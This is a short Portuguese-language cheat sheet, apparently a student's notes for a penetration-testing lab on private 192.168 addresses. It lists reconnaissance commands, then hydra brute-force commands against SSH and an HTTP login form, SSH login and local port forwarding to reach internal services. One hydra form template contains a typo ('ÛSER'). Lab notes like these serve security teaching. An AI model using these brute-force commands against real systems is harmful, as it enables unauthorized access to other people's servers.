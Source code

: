 # COMANDOS E PASSOS IMPORTANTES

- verificar ip

  `ip -br -c a`

- verificar dispositivos conectados na mesma rede

  `netdiscover -i eth0 -P -r 192.168.56.0/24`

- verificar portas abertas

  `netstat -nltp`

  ## Caminhos de pastas importantes

  /usr/share/wordlists/metasploit

  http_default_user.txt

  http_default_pass.txt

  ## Possivel passo a passo

  Entrar no servidor:

  por meio de usuário dado e ataque de força bruta

  - `hydra -L user.txt -P pass.txt ssh://192.168.10.10`

  ataque de força bruta sem nada

  - `hydra -L pass_user_injection.txt -P pass_user_injections.txt 192.168.100.20 http-post-form "/login.php:login=ÛSER^&senha=^PASS^:F=incorretor" -o found2.txt -f`

  Depois de descobrir fazer tunelamento ssh

  - `ssh -p 2222 aluno@192.168.100.20`

  Verificar serviços e portas abertas

  - serviço -> colocar ip do servidor no navegador
 
  - portas -> `netstat - nltp`

  - inspecionar página para ver se não encontra nada
 
  Se tiver outra porta aberta sera necessário fazer redirecionamento de portas local, então sair do servidor e:

  - `ssh -L portaLocal:localhost:portaRemota aluno@192.168.100.20`
 
    Depois de acessar a proxima porta tentar acessar o outro serviço colocando no navegador:

  - `localhost:portaRemota`

  OBS:
  - Tomar cuidado para que o proxy não esteja ligado
  - Tomar cuidado para não usar a mesma porta de um serviço ja usado
  
